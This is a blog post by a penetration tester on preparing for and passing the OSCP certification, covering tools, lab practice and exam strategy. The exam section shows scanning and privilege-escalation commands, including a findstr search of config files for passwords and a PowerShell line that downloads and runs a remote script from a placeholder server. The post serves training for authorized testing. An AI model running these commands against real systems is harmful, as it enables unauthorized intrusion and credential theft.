



:slug: oscp-journey/
:date: 2019-12-04
:category: opinions
:subtitle: The meaning of Try Harder
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man siting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: The OSCP exam is one of the hardest certifications for pentesters out there. Many people take this exam to test their pentesting abilities and most of them don’t pass it in the first attempt. Here I will show you how I prepared myself and how you can obtain the certification too.
:keywords: Bussiness, Information, Security, Protection, Hacking, Best Practices
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= How to pass the OSCP

My background before taking the exam
was two years of work at +Fluid Attacks+ as a penetration tester,
this means that I already had the know-how of a penetration test
and how to build a technical report of my findings.
However, if you don’t have the experience on the field
or you are starting just now,
this post will help you pass your exam.

The most important phase on a penetration test is scanning.
Here you will use your tools to get information about your target
like operating system, open ports, services running on those ports,
their versions, whether they have public vulnerabilities or not
and whether there is a public exploit for those vulnerabilities.
Since +metasploit+ is restricted to only *ONE* machine
(this includes the auxiliary modules too)
you need to make yourself comfortable with tools such as:

* link:https://nmap.org/[Nmap]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://tools.kali.org/information-gathering/nikto[Nikto]
* link:https://tools.kali.org/web-applications/gobuster[Gobuster]
* link:https://github.com/maurosoria/dirsearch[Dirsearch]
* link:https://tools.kali.org/information-gathering/enum4linux[enum4linux]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]

The only way to do this is by using them continuously
until you develop a solid enumeration strategy.
To help with this, there are services like link:https://www.hackthebox.eu/[hackthebox] and link:https://www.vulnhub.com/[vulnhub],
where you will find vulnerable machines to test your skills.

Furthermore, there you can practice the _gaining access_ phase
and your privilege escalation strategies with multiple operating systems
and vulnerabilities that resemble the ones in real life scenarios.
You would be surprised by how many times
I’ve encountered the vulnerability on +hackthebox+ first
and then on a real life service.
The tools and resources that I got the most from for privilege escalation were:

* link:https://github.com/rebootuser/LinEnum[linenum]
* link:https://github.com/AonCyberLabs/Windows-Exploit-Suggester[windows exploit suggester]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]
* link:https://github.com/411Hall/JAWS[JAWS]
* link:https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc[PowerUp]
* link:https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/[g0tmilk Linux privesc blog]
* link:https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/[absolomb Windows privesc blog]

I recommend to hack all the live machines that you can
without any help and get some points on the platform.
With this you will get used to the tools
and strengthen your mentality in order to take the exam.
If you can’t hack a machine and it gets removed,
you can check the walkthrough by link:https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA[Ippsec]
and learn new things.
You can learn stuff from these videos
even for machines you did root.
Do this for at least one month or, if you have zero experience, two months.

== Attacking the lab

I had a month of lab access, so the approach that I took
to the course and the lab was splitting them by days,
one to concentrate on the guide
and take notes of interesting things that I didn't know
and a day for attacking the lab machines.

When you are working on the machines,
try to also work on your time management;
do not spend too much time on one machine when you can try another one,
as this skill is very important when you are taking your exam
because things can go south.

Before your lab access ends,
be sure to fully understand how to do a +buffer overflow+,
take notes of every step, copy all the commands that you need
and also how to get the +return address+.
This will help greatly in your exam.

== Post lab

Here you want to gather the most information
about the last two steps and put it to a test.
We are going back to +hackthebox+
but instead of doing the active machines
we are going to do the ones from link:https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0[this list]
(there are also some from +vulnhub+).

Try to conquer those machines
without the aid of walkthroughs,
and when you finish one, you will look at these
to check whether there is another way in and practice it.

The day before, I did nothing.
Your body and mind need to rest
and you should not try to cram before the test.
Eat your favourite foods (pancakes, pizza and sushi),
enjoy yourself with a well deserved dessert
and watch movies and series that you left behind while studying.

== The exam

The task is to gain administrative access
to the machines in the network, there are 5 machines
and each is worth a certain number of points if you complete it
and you need at least +70+ points to pass the exam.
The machine points are distributed as:

* 25 points Buffer Overflow
* 25 points machine
* Two 20 points machines
* 10 points machine

I started with the +25 points BoF+ machine
while I scanned all the other ones,
this because I knew that I could follow the guide step by step
and get the points.
My scanning strategy was to run +nmap+ with these options:

.nmap with options
[source,bash]
----
$ nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
----

Also, I pinged the machine
in order to view its operative system,
if the +TTL+ (Time to Live) is +64+ then it is a +Linux+ machine
and if it is +128+ then it’s a +Windows+ machine.
When the port scan finished I checked every web service
and used a web crawler like +dirbuster+ or +dirsearch+.

After finishing the +BoF+ machine,
I could start hacking the machines
with all the information that I’d collected.
I ended up on rabbit holes
trying to gain admin privileges on the 25-pointer machine,
soon enough I decided to switch to both 20-pointer
and finally the 10-pointer machine.

For privilege escalation
I first checked the operative system version and kernel,
this can be done by running:

[source,bash]
----
$ uname -a #linux
> systeminfo #windows
----

If it was +Linux+ I checked for +sudo+ rights,
running processes and for +SUID+ executables.
There is a tool named +linenum+ but it’s too verbose
and I like to search for things manually:

[source,bash]
----
$ sudo -l
$ ps -aux
$ find / -perm -u=s -type f 2>/dev/null
----

If it was +Windows+, I checked for the +Groups.xml+ file
(usually it has administrative user and password there),
installed software and tried to use +powershell+
to run +Windows+ exploits.
When it comes to +Windows+, most of the time the way of escalating privileges
is through a vulnerability in the +OS+ version
or in an installed program version.

[source,bash]
----
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
----

I finished my test in less than 10 hours
with 4 admins and 1 user, this was a little more than +75+ points.
The mistake that I made
was to be lazy with my screenshots
so I needed to redo all the machines
to get all of my evidences (*DON’T DO THIS*).
The next day I did my technical documentation,
the advice here is to put everything that you did
from the _scanning_ phase up to the _privilege escalation_ phase,
also if you modified an exploit (even if is only one line)
put it on the report and mark what you modified.
Then it was only a matter of waiting for the response.

== What you can take

The +OSCP+ is surely a hard certification but it’s not impossible.
The steps previous to the lab are going to help you
to get the most out of the course
and to have your own routine when it comes to doing a penetration test.
The _enumeration_ and _scanning_ phases
are the most important ones in the whole process,
you can spend hours going through rabbit holes
if you do not do this step properly
so be sure that you dominate yours.
A mental toughness is needed to pass this test
so be prepared to think quickly and creatively,
daisy chaining vulnerabilities and to rest when it is needed.
The discord groups of +hackthebox+ and +OFFSEC+ are at your disposal
to solve your questions or give hints where you need them, so try harder.
